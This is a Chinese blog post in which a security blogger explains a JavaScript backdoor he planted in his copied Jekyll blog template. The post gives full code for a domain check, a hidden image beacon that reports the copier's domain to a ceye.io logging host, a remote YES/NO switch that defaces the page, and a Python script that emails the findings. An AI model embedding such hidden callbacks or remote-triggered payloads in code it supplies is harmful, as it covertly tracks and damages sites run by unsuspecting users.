 ```yaml
---
layout: post
author: Vulkey_Chen
title: "我为何在博客模板留后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


# 前言

在前段时间，我在我博客的模板上加入了后门（JavaScript），今天去除，并将思路简单的写出来。

## 为什么留后门呢？

**起因**：在前不久，团队官网模板就被偷走，很让人生气，抄袭者团队（以下简称为：A）没有打一声招呼就拿走了，但可笑的是A并没有在模板中修改JavaScript文件的外链引用，而是直接使用我们的JavaScript文件，所以简单的利用JS修改了一下其主页，提醒了下他，经过后来A主动与我联系并道歉，这件事情才结束～

让我吃惊的是，这件事之后我发现我博客主题模板被拿走了，是的，不止一个哥们。

我在我的博客项目中说明了`https://github.com/gh0stkey/gh0stkey.github.io`

> 个人博客 gh0st.cn 模版来自：https://github.com/heiswayi/the-plain 在原基础上增加了分页、网易云音乐播放器等功能（做了一些排版细节上的调整），拿之前告诉我下，谢谢！

因为博客采用的是Github Pages + Jekyll，所以需要依赖于Github的进行托管，模板也就自然而然的可以直接`git clone`下来，模板也是我进行二次修改的，我觉得起码要尊重下作者，在博客主题或项目之类的进行说明，打声招呼也行，一声不吭的拿走是几个意思......

有个好兄弟说过这样一段话，望周知：

> 参考别人的研究成果著名来源是基本素质，每个人都应该构建一个和谐积极向上的氛围，知道的人不愿意分享的原因就是不被别人认可，互相认可才能进步，现在理解一些师傅的苦衷了，挺悲哀的。请各位在以后的学习生涯上，尊重别人的分享，认可他人，互相感染才能进步。

# 关于后门

我是一个“重度洁癖患者”，不喜欢自己的任何东西带上任何污点。包括对于在自己博客模板中加入后门，这对我来说是一件带有“大污点”的事情，所以思考了很久决定加上后门。

## 后门的构建

### JavaScript 后门

模板后门选择的是JavaScript外链引用，而JavaScript的内容构建步骤如下：

**1.判断是否是自己的域名（这个正则写的不严谨是可以被绕过的，例如：`gh0st.cn.bypass.cn`）：**

```javascript
var host = document.location.host; //获取host
var reg = new RegExp(/gh0st.cn/); //创建正则
var isok = reg.test(host); //匹配结果：False\True
if(!isok){//判断
	...code
}
```

**2.触发式：在一个Web服务上添加了isopen.txt这个文件，内容为NO则不触发，内容为YES则触发。（选择触发式的原因是因为博客上线有本地调试这一环节，如果在本地就触发了，那岂不是得不偿失，没有造成什么直接损害～）**

```javascript
var xhr = new XMLHttpRequest(); //创建XMLHttpRequest
xhr.onreadystatechange=function(){ //请求成功则触发
	if(xhr.responseText == "YES"){ //判断请求网站的内容是否是YES，如果是则进行下一步
		document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>"); //页面内容修改
	}
}
xhr.open("GET","http://webserver/isopen.txt",true); //请求http://webserver/isopen.txt
xhr.send(null);
```

**3.既然选择了触发式的后门，那么就需要知道是谁偷了模板，这里利用的是`ceye.io`这个平台去记录“小偷”的域名和IP之类的东西：**

```javascript
var img = document.createElement("img"); //创建img标签
img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host; //设置img标签的src属性
img.stytle.display="none"; //设置img标签的样式的display属性为none（表示这个将图片隐藏）
document.body.appendChild(img); //在DOM节点(body)内加入img标签
```

**4.在博客模板的header.html中引用了外部的JS地址`<script src="http://webserver/xxx.js">`**

完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/gh0st.cn/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host;
    img.stytle.display="none";
    document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>");
        }
    }
    xhr.open("GET","http://webserver/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
import smtplib,requests,json,urlparse,sys
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.163邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.163.com'
	smtpPort = '25'
	fromMail = '邮箱账户'
	toMail = '邮箱账户,收信方'
	username = '邮箱账户'
	password = '邮箱密码'
	reload(sys)
	sys.setdefaultencoding('utf8')

	subject = u'博客监控到有人偷模板！'
	body = u"[小偷信息]\nDomain: {0} IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=你的TOKEN&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
```

## 后门的运行

python脚本挂在服务器跑了一段时间，也发现了一个哥们又拿走了我的博客模板：

![oh,no](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-01-23/0.png)

让他"用"了一段时间，便将isopen.txt的内容改为了YES（即触发了后门），其后来也与我联系，并进行了和解。

# 写在最后的话

也是因为“重度洁癖”，决定将模板后门去除。望君尊重技术、分享、作者，共勉！
